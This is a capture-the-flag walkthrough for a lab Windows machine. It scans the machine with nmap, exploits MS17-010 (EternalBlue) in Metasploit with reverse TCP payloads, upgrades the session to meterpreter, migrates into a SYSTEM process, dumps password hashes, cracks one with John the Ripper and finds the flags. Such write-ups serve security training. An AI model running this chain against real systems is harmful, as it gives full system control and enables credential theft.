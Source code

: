 # Blue

## Task 1

Scan the machine for open ports and vulnerabilities using nmap.

```
nmap -sVC --script vuln  10.10.91.185
```

<img src="images/02.Blue/01.png">

<img src="images/02.Blue/02.png">

From the scan results we can see that the machine is vulnerable to ms17-010.

## Task 2

Let's open metasploit.

```
msfconsole -q
```

Search for the exploit ms17-010 and use exploit/windows/smb/ms17_010_eternalblue.

```
search ms17-010
```

```
use 0
```

<img src="images/02.Blue/03.png">

### Approach 1

The payload is set by default to windows/x64/meterpreter/reverse tcp.

See the available options and change the rport and lhost.

```
show options
```

```
set rhosts 10.10.91.185
```

```
set lhost tun0
```

<img src="images/02.Blue/04.png">

Run the exploit.

```
exploit
```

We now got a meterpreter shell. Let's quickly find out the information about the machine. We are logged in as nt authority\system. Now we have all privileges to the machine.

<img src="images/02.Blue/05.png">

<img src="images/02.Blue/06.png">

### Approach 2

Set the payload to windows/x64/shell/reverse_tcp.

```
set payload windows/x64/shell/reverse_tcp
```
See the available options and change the rport and lhost.

```
show options
```

```
set rhosts 10.10.91.185
```

```
set lhost tun0
```

<img src="images/02.Blue/07.png">

Run the exploit.

```
exploit
```
We now got a shell and we will elevate this shell to meterpreter shell. Background the shell by hitting Ctrl+Z.

<img src="images/02.Blue/08.png">

Use the module post/multi/manage/shell_to_meterpreter to get a meterpreter shell from the existing non-meterpreter shell.

Set lhost, session and run it.

```
set lhost tun0
```

```
set session 2
```

```
expoit
```

<img src="images/02.Blue/09.png">

<img src="images/02.Blue/10.png">

## Task 3

Let's check whether we are running as nt authority\system or not using getsystem.

```
getsystem
```

We are already running as SYSTEM and run ps to list all the processes.

```
ps
```

<img src="images/02.Blue/11.png">

We will now migrate to a different process that is running as NT AUTHORITY\SYSTEM.

```
migrate 704
```

<img src="images/02.Blue/12.png">

## Task 4

We can run hashdump in the meterpreter shell to get the hashes.

<img src="images/02.Blue/13.png">

Then we will crack the hash of user Jon with John The Ripper.

```
john hash.txt --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
```

<img src="images/02.Blue/14.png">

## Task 5

Now let's find the flags. The first flag is located in the location C:\ .

<img src="images/02.Blue/15.png">

The second flag is located at the location where passwords are stored. The passwords are stored in SAM file. So, the second flag would be in the location C: \windows\system32\config.

<img src="images/02.Blue/16.png">

<img src="images/02.Blue/17.png">

The third flag is located in the Documents folder of the user Jon.

<img src="images/02.Blue/18.png">
